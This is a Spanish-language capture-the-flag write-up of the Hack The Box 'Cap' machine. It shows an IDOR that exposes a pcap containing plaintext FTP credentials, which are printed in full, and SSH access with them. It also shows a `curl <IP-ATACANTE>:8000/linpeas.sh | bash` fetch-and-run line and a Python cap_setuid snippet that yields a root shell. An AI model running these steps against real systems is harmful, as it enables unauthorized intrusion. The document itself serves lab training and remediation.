








# Cap (HTB)
- Dirección IP Objetivo: 10.10.10.245
- Sistema Operativo: Linux (Ubuntu)
- Dificultad: Fácil (Enum + Capabilities)
- Autor: Daniel Barbeyto Torres
- Fecha: 2025-12-09

## I. Resumen Ejecutivo (Executive Summary)
La máquina Cap ha sido comprometida totalmente (nivel Root). El acceso inicial se logró mediante la explotación de una vulnerabilidad web de tipo IDOR (Insecure Direct Object Reference) en el panel de administración, que permitió descargar un archivo de captura de tráfico (.pcap) perteneciente a otro usuario. El análisis de este archivo reveló credenciales de FTP en texto plano.

La escalada de privilegios vertical se consiguió abusando de Linux Capabilities mal configuradas. Específicamente, el binario de python3.8 poseía la capacidad cap_setuid, permitiendo al usuario manipular su propio UID para escalar a root.

## II. Enumeración y Reconocimiento (Reconnaissance)
### 2.1. Escaneo de Puertos y Servicios
Se inició la auditoría con un escaneo de puertos TCP utilizando Nmap para identificar la superficie de ataque.

Comando Ejecutado:

```bash
sudo nmap -sV -v 10.10.10.245
```



Resultado: El escaneo reportó tres puertos abiertos:
- 21/tcp (FTP): Servicio vsFTPd 3.0.3.
- 22/tcp (SSH): Servicio OpenSSH.
- 80/tcp (HTTP): Servidor web gunicorn.

### 2.2. Enumeración de Servicios
FTP (Puerto 21): Se intentó el acceso mediante el usuario anonymous, pero el servidor rechazó la conexión (Login failed), indicando que el acceso anónimo está deshabilitado.



HTTP (Puerto 80): Al acceder vía navegador, se presentó un "Security Dashboard". Este panel muestra información del sistema en tiempo real, como la configuración de red (ip config) y conexiones activas (netstat), lo que sugiere que la aplicación web tiene capacidad de ejecución de comandos del sistema.



## III. Análisis de Vulnerabilidades Web (IDOR)
### 3.1. Descubrimiento de Insecure Direct Object Reference (IDOR)
Navegando por la sección "Security Snapshots", se observó que la aplicación permite descargar capturas de paquetes (.pcap). Al generar una nueva captura, la URL seguía el patrón /data/id, donde el id es un numérico incremental.



Se identificó una vulnerabilidad de Referencia Directa a Objeto Insegura (IDOR). Al manipular la URL y cambiar el ID a 0 (/data/0), se pudo acceder a una captura de tráfico histórica, posiblemente generada por el administrador u otro usuario.

### 3.2. Análisis de Tráfico (PCAP)
Se descargó el archivo 0.pcap y se analizó utilizando Wireshark. Al examinar el flujo de paquetes TCP, se encontraron credenciales enviadas en texto plano durante una sesión FTP anterior.



Credenciales Extraídas:
Usuario: nathan 
Contraseña: Buck3tH4TF0RM3! 

## IV. Explotación y Acceso Inicial
Con las credenciales recuperadas, y dado que el puerto 22 estaba abierto, se procedió a conectar vía SSH para obtener una shell interactiva y estable.

Comando Ejecutado:

```bash
ssh nathan@10.10.10.245
```



La autenticación fue exitosa. Se listó el directorio actual y se recuperó la flag de usuario (user.txt).

## V. Escalada de Privilegios (PrivEsc)
### 5.1. Enumeración Interna (LinPEAS)
Para identificar vectores de escalada, se utilizó la herramienta de enumeración automatizada LinPEAS.

Para descargar linpeas.sh, ejecutamos el siguiente comando.

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

Se levantó un servidor HTTP con Python (python3 -m http.server).



Se descargó linpeas.sh en la máquina atacante.

Se ejecutó el script en la máquina víctima directamente en memoria:

```bash
curl <IP-ATACANTE>:8000/linpeas.sh | bash
```

Hallazgo Crítico: El reporte de LinPEAS destacó el binario /usr/bin/python3.8 en rojo, indicando que poseía Capabilities peligrosas asignadas.

## 5.2. Análisis Técnico: Linux Capabilities
El sistema de Capabilities de Linux permite dividir los privilegios de superusuario (root) en unidades más pequeñas y asignarlas a procesos o binarios específicos, evitando el uso del bit SUID completo.

En este caso, el binario de Python tenía asignada la capability cap_setuid.

cap_setuid: Permite a un proceso manipular su propio Identificador de Usuario (UID). Es decir, el proceso puede "decidir" convertirse en cualquier usuario, incluido root (UID 0).

## 5.3. Explotación de Capability
Dado que tenemos control sobre el intérprete de Python y este tiene permiso para cambiar su UID, podemos escribir un pequeño script (o one-liner) para elevarnos a root.

Exploit Ejecutado:

```bash
import os
os.setuid(0)
os.system("/bin/bash")
os.setuid(0)  #Cambia el UID del proceso actual a 0 (root).

os.system("/bin/bash")  #Lanza una nueva shell. Como el proceso padre ya es root, la nueva shell hereda los privilegios.
```



El comando se ejecutó exitosamente, otorgando una shell como root. Finalmente, se leyó la flag de administrador (root.txt) en el directorio /root.


## VI. Conclusiones y Recomendaciones
### 6.1. Resumen de Vulnerabilidades
- IDOR en Panel Web: Falta de control de acceso en la descarga de capturas de red, permitiendo a usuarios no autorizados acceder a datos históricos.
- Exposición de Datos Sensibles: Transmisión de credenciales FTP sin cifrado (texto plano) capturadas en los logs de red.
- Capabilities Inseguras: Asignación de cap_setuid a un intérprete de lenguaje (Python), lo cual es equivalente a dar permisos SUID de root.

## 6.2. Recomendaciones (Remediation)
- Implementar controles de acceso estrictos (validación de sesión) para cada objeto (/data/id) en la aplicación web.
- Evitar el almacenamiento persistente de archivos .pcap accesibles vía web.
- Eliminar las capabilities innecesarias de binarios del sistema. En este caso, retirar cap_setuid de Python:

```bash
setcap -r /usr/bin/python3.8
```

- Forzar el uso de protocolos seguros (SFTP/FTPS) en lugar de FTP estándar.
